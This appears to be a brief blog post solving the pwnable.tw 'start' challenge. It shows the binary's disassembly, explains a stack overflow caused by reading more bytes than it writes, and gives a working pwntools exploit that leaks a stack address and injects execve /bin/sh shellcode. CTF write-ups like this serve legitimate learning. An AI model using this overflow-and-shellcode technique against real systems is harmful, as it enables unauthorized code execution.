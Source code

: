 ```yaml
---
layout: post
title:  "start"
date:   2018-08-03
categories:  pwnable.tw
---
```

```assembly
push    ':FTC'
push    ' eht'
push    ' tra'
push    'ts s'
push    2774654Ch
mov     ecx, esp        ; addr
mov     dl, 14h         ; len
mov     bl, 1           ; fd
mov     al, 4
int     80h             ; LINUX - sys_write
xor     ebx, ebx
mov     dl, 3Ch
mov     al, 3
int     80h             ; LINUX -
add     esp, 14h
retn
```

write 14h and then read 3ch   <- overflow



1.overflow to write, leak $esp and stack address

2.add shellcode



```python
from pwn import *
#context.log_level = "debug"

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"

#p = process("./start")
p = remote("chall.pwnable.tw","10000")

#gdb.attach(p)
p.recvuntil("CTF:")
p.send("A" * 20 + p32(0x8048087))
a = u32(p.recv()[:4])
#print a
log.info("Address = "+ hex(a))
log.info("Next = " + p32(a+20))
p.send("A" * 20 + p32(a+20) + shellcode)
p.interactive()
```



##### pay attention to send and sendline  


